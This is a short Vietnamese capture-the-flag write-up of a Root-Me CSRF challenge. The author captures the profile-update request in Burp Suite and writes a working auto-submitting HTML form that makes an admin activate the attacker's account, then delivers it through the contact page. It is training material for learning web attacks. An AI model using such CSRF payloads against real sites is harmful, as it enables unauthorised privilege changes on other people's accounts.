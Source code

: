 Challenge: http://challenge01.root-me.org/web-client/ch22/

Đăng ký rồi đăng nhập: 
![alt text](image.png)

Ở đây ta cần đọc phần Private nhưng để đọc được thì cần admin active cho tài khoản của mình, phần `Status` ta sẽ không tự đánh dấu được.

Vậy ở đây ta sẽ cần dùng CSRF để admin sẽ active tài khoản mình. 

Đầu tiên ta sẽ bật `Status` checkbox để thử gửi request:
![alt text](image-1.png)

Vào burp suite ta thấy được request: 
![alt text](image-2.png)

Tạo 1 đoạn html form để khi admin click vào sẽ tự active cho mình: 
```
<form id="form" action="http://challenge01.root-me.org/web-client/ch22/index.php?action=profile" enctype="multipart/form-data" method="POST">
<input name="username" value="a" />
<input name="status" value="on" />
<input type="submit" value="Submit Request" />
</form>

<script>
document.getElementById("form").submit();
</script>
```

Sau đó up html này lên Contact và đợi admin click vào form đó:  
![alt text](image-3.png)

![alt text](image-4.png)